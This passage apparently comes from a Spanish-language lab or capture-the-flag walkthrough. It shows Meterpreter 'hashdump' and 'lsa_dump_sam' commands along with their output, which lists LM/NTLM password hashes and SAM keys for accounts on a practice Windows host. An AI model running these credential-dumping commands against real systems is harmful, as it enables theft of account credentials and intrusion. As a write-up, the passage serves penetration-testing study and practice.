 ### MSF - Extracción de Hashes

```plaintext
meterpreter > hashdump
```

```ruby
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

```plaintext
meterpreter > lsa_dump_sam
```

```yaml
[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182

SAMKey : 37ceb48682ea1b0197c7ab294ec405fe

RID  : 000001f4 (500)
User : Administrator
  Hash LM  : c74761604a24f0dfd0a9ba2c30e462cf
  Hash NTLM: d6908f022af0373e9e21b8a241c86dca

RID  : 000001f5 (501)
User : Guest

RID  : 000003e9 (1001)
User : SUPPORT_388945a0
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c
```
